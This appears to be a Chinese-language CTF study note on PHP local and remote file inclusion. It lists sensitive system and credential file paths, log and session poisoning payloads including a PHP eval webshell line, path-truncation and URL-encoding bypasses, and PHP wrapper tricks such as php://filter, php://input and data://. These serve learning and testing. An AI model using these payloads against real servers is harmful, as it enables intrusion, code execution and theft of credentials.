#### 【概述】

文件包含分为两种：

- 本地文件包含(Local File Include，简称 LFI)，即包含服务端的文件。
- 远程文件包含(Remote File Include，简称RFI)，即包含指定 url 的文件。
  - 远程包含时，PHP 配置中需要：

    - allow_url_fopen=On(默认为On) ，规定是否允许从远程服务器或者网站检索数据。

    - allow_url_include=On(PHP5.2.x之后默认为Off)， 规定是否允许 include/require 远程文件。

#### 【相关函数】

##### <<PHP

###### include

&emsp;&emsp;包含文件发生错误时，程序警告，但会继续执行。

###### include_once

&emsp;&emsp;和 include 类似，但只包含一次。

###### require

&emsp;&emsp;包含文件发生错误时，程序报错，并直接终止执行。

###### require_once

&emsp;&emsp;和 require 类似，但只包含一次。

###### NOTICE

&emsp;&emsp;上述四个函数，无论包含的是什么类型的文件，都将做为 PHP 代码执行。

#### 【敏感信息路径】

##### <<Windows

```
C:\Windows\system32\inetsrv\MetaBase.xml //IIS配置文件
C:\ProgramFiles\MySQL\my.ini //MySQL配置文件
C:\ProgramFiles\MySQL\Data\mysql\user.MYD //MySQL root密码
```

##### <<Linux/Unix

```
/etc/passwd //账户信息
/etc/shadow //账户密码文件
/usr/local/app/apache2/conf/httpd.conf //Apache2默认配置文件
/var/log/apache2/access.log //Apache日志文件
/var/log/apache2/error.log //Apache错误日志
/var/log/nginx/access.log //nginx日志文件
/var/log/nginx/error.log //nginx错误日志
/usr/local/app/apache2/conf/extra/httpd-vhost.conf //虚拟网站配置文件
/usr/local/app/php5/lib/php.ini //PHP配置文件
/etc/httpd/conf/httpd.conf // Apache配置文件
/etc/my.conf //MySQL配置文件文件
/etc/ssh/sshd_config //ssh配置文件
/var/log/auth.log //ssh日志文件
//nginx配置文件
/etc/nginx/nginx.conf
/etc/nginx/sites-enabled/default
//
/var/www/html/ //默认网站路径
```

#### 【session文件包含】

##### <<获取session文件存储位置

###### phpinfo



###### 默认位置

&emsp;&emsp;Linux 下默认存储在 /var/lib/php/session 目录下。

##### <<漏洞分析

前置知识：

session 的文件名为 `sess_` + sessionid，sessionid 可 F12 查看，



测试代码：test.php

```php
<?php
session_start();
$cmd = $_GET['cmd'];
$_SESSION['username'] = $cmd;
?>
```

访问 `localhost/test.php?cmd=flag` ，查看 session 文件,



假如写入 `localhost/test.php?cmd=<?php eval($_POST['x']);?>` ，那么通过文件包含对应 session 文件便可 getshell 。

#### 【日志文件包含】

###### web中间件日志包含

&emsp;&emsp;已知日志文件中会写入访问内容和 User-Agent 。所以我们可以在访问内容（如`/xxx/x.php`）后面加上恶意代码（如`/xxx/x.php<?php phpinfo();?>`，注意部分字符需要url编码），然后将日志文件包含，即可执行恶意代码。

&emsp;&emsp;关于在 User-Agent 里写入恶意代码的示例，参考 [HNCTF 2022 WEEK2]easy_include 。

###### SSH日志包含

&emsp;&emsp;已知 SSH 日志中会写入 SSH 的连接记录，所以我们可以将连接用户名改为恶意代码，用命令连接服务器的 SSH 服务（`ssh "<?php phpinfo();?>"@ip地址`），然后将日志文件包含，即可执行恶意代码。

#### 【environ文件包含】

&emsp;&emsp;environ 文件保存的是当前进程的环境变量，默认位置 /proc/self/environ 。environ 文件只在 Linux 系统中有，Windows 系统上是没有的。

&emsp;&emsp;当 php 以 CGI 方式运行时，environ 才会保存 HTTP 请求中的 User-Agent 。所以我们只需要抓包在 User-Agent 里添加恶意代码，然后包含 environ 文件即可执行它。

#### 【绕过】

##### <<拼接包含路径

```php
<?php
$file=$_GET['file'];
include ($file.".html");
?>
```

###### %00截断

###### 路径长度绕过

前置知识：

- Windows 下最大路径长度为 256B
- Linux 下最大路径长度为4096B 。

漏洞利用条件：php<5.3.10 。

那么，可传入 `?file=test.txt././././././(省略若干./)` 或  `?file=test.txt.........(省略若干.)` （注意点号截断只适用于Windows系统），让长度冲到最大路径长度，从而拼接的 .html 被抛弃达到绕过目的。

###### 问号绕过

&emsp;&emsp;远程文件包含，`?file=http://127.0.0.1/test.txt?` ，? 将被当作变量的开始，从而拼接的 .html 失效。

###### 井号绕过

前置知识：HTML \<a>标签的 id 属性。

id 属性创建一个 HTML 文档书签，书签不会以任何特殊方式显示，即在 HTML 页面中是不显示的，所以对于读者来说是隐藏的。

- 在 HTML 文档中插入 id

  ```html
  <a id="tips">有用的提示部分</a>
  ```

- 在 HTML 文档中创建一个链接到“有用的提示部分”

  ```html
  <a href="#tips">访问有用的提示部分</a>
  ```

- 或者，从另一个页面创建一个链接到“有用的提示部分”

  ```html
  <a href="https://www.runoob.com/html/html-links.html#tips">访问有用的提示部分</a>
  ```

\# 是用来指导浏览器动作的，对服务端无用。HTTP 请求中不包括 # ，如访问 `https://www.runoob.com/html/html-links.html#tips` 时，浏览器实际请求的是 `https://www.runoob.com/html/html-links.html` ，当浏览器得到 html-links.html 后，再根据 # 的指导进行下一步动作。

url 中第一个 # 后面出现的任何字符，都会被浏览器解读为位置标识符。这意味着，这些字符都不会被发送到服务器端。比如，`http://www.example.com/?color=#fff` 的原意是指定一个颜色值，但浏览器实际发出的请求是：

```
GET /?color= HTTP/1.1
Host: xxx
```

那么我们传入 `?file=http://127.0.0.1/test.txt%23 `，远程文件包含时 # 将被解释为位置标识符，从而拼接的 .html 失效。注意使用 url 编码传入，防止传入时就被解释为位置标识符。

###### 空格绕过

&emsp;&emsp;远程文件包含，`?file=http://127.0.0.1/test.txt%20` ，注意使用 url 编码传入。

##### <<过滤.或/

###### url一次编码绕过

- ../
  - %2e%2e%2f
  - ..%2f
  - %2e%2e/
- ..\
  - %2e%2e%5c
  - ..%5c
  - %2e%2e\

###### url二次编码绕过

- ../
  - %252e%252e%252f
- ..\
  - %252e%252e%255c

#### 【PHP伪协议】

##### <<基础

###### file://：访问本地文件系统

- 只能访问本地文件。

- 必须使用绝对路径。

示例：



###### php://：访问输入/输出流

- php://filter：

  - 对打开的数据流进行筛选和过滤，常用于读取文件源码。

  - 若想获取 PHP 源码，则需先对文件内容进行编码， 因为编码后便不再符合 PHP 语法，会直接输出。如使用base64编码：

    ```
    php://filter/read=convert.base64-encode/resource=路径
    ```

  - 示例，包含图片马：

    

- php://input：

  - 任意代码执行。可以将 GET/POST 请求体中的内容当做文件内容执行，从而实现任意代码执行。需要注意的是，当“Content-Type=multipart/form-data”时 php:/input 将会无效。

  - 示例：

    

###### data://：数据

- 利用条件：

  - php>=5.2.x

  - allow_url_fopen=On

  - allow_url_include=On

- 协议格式：`data://资源类型;编码,编码后的内容` 或 `data://资源类型,内容`。

        常用：`data://text/plain,内容`，实现任意代码执行。

示例：

无编码：



base64 编码：





编码内容怎么写时也是有讲究的，不要编码后出现 url 特殊字符（如+）：





###### phar://：PHP归档

PHP 解压缩包的一个伪协议，不管后缀是什么都会当做压缩包来解压。

利用条件：

- 压缩包需使用 zip 协议压缩

- php>=5.3.x

示例：

- 将 phpinfo.php 用 zip 协议压缩为 phpinfo.zip 。

- 上传，访问压缩包里的 phpinfo.php（绝对路径或相对路径均可）。



压缩包后缀名(.zip)改为别的也可以，最终都会当作压缩包来处理：



###### zip://：压缩流

与 phar:// 类似，区别在于：

- 只能使用绝对路径。

- 要用 # 分隔压缩包和压缩包里的内容，注意 # 要用 url 编码 %23 ，防止被浏览器解释为位置标识符。

示例：



同样压缩包后缀(.zip)改为别的也可以。

##### <<进阶

###### require_once绕过

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

参考：[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235#h2-0)

###### php://filter进阶用法

参数说明：

| 名称                        | 描述                                                         |
| :-------------------------- | :----------------------------------------------------------- |
| `resource=<要过滤的数据流>` | 这个参数是必须的。它指定了你要筛选过滤的数据流。             |
| `read=<读链的筛选列表>`     | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| `write=<写链的筛选列表>`    | 该参数可选。可以设定一个或多个过滤器名称，以管道符（`|`）分隔。 |
| `<;两个链的筛选列表>`       | 任何没有以 `read=` 或 `write=` 作前缀 的筛选器列表会视情况应用于读或写链。 |

- 写入文件：

  - ```php
    <?php
    $file = $_GET['file'];
    $content = $_GET['content'];
    file_put_contents($file, $content);
    ?>
    ```

  - 无编码：`?file=php://filter/resource=test.txt&content=flag`

  - base64编码：`?file=php://filter/write=convert.base64-encode/resource=test.txt&content=flag`

待补：

[探索php://filter在实战当中的奇技淫巧](https://www.anquanke.com/post/id/202510) 

[file_put_contents学习笔记](https://blog.csdn.net/qq_62078839/article/details/124227983)

及更多相关文章。

###### pearcmd.php利用

待补：

[pearcmd.php的妙用](https://blog.csdn.net/RABCDXB/article/details/122050370)

[文件包含漏洞&伪协议](https://blog.csdn.net/qq_62078839/article/details/124208151)

及更多相关文章。
